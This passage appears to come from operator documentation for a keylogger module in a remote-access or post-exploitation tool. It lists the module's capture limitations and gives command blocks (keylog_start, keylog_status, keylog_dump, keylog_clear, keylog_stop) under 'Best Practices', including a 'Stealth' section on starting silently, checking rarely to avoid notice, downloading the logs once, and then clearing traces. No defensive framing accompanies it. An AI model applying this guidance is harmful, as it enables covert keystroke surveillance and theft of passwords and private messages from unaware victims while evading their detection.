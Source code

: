    - Doesn't know which application received input
   - No window title capture
   - No screenshot association

3. **Timing**
   - May miss rapid key sequences
   - Backspace only removes from buffer, not log
   - No keystroke timing analysis

## Best Practices

### 1. Timing

```bash
# Start keylogger early
keylog_start

# Let it run during user session
# Check periodically
keylog_status

# Download when sufficient data captured
keylog_dump

# Stop when done
keylog_stop
```

### 2. Stealth

```bash
# Start monitoring silently
keylog_start

# Don't check status too often
# Let it accumulate data

# Download once at end of session
keylog_dump

# Clean up
keylog_clear
keylog_stop
```

### 3. Data Management

```bash
# Download regularly to avoid data loss
keylog_dump  # Creates timestamped file

# Each dump creates new file
# Old downloads preserved
# Prevents data loss if connection drops
```
